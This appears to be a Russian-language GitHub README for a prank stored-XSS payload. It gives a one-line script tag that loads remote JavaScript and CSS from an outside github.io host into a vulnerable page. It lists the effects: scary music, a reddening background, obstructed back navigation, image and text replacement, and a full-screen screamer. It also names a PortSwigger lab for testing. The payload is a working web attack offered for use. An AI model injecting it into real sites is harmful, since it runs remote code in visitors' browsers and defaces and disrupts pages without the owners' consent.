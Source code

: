 # Stored-XSS-scary

Код сработает только при наличии уязвимости хранимый XSS + если сайт не будет блокировать загрузку внешних скриптов и стилей. <br>
Для теста можно запустить лабараторку в https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded.

https://github.com/0-DAyFF13R/Stored-XSS-scary/assets/63510648/918e3044-14b0-45c1-aa3c-c795c30caf6f

------------------------------------------

Полная версия (JS + CSS) [288 символов]:
> <script>var c=document.createElement('link');c.rel='stylesheet';c.href='//0-dayff13r.github.io/Stored-XSS-scary/styles.css';document.head.appendChild(c);var r=document.createElement('script');r.src='//0-dayff13r.github.io/Stored-XSS-scary/script.js';document.body.appendChild(r);</script>

* Страшная музыка
* Постепенно изменяющийся цвет фона на красный
* Прыгающий и мигающий текст
* Частичные трудности при возвращении на предыдущую страницу
* Замена всех изображений на скример
* Замена текста из тегов <p>, <h1>, <a>
* Замена всех тегов <a> на <p>
* Скример на весь экран с криком в течение какого-то времени
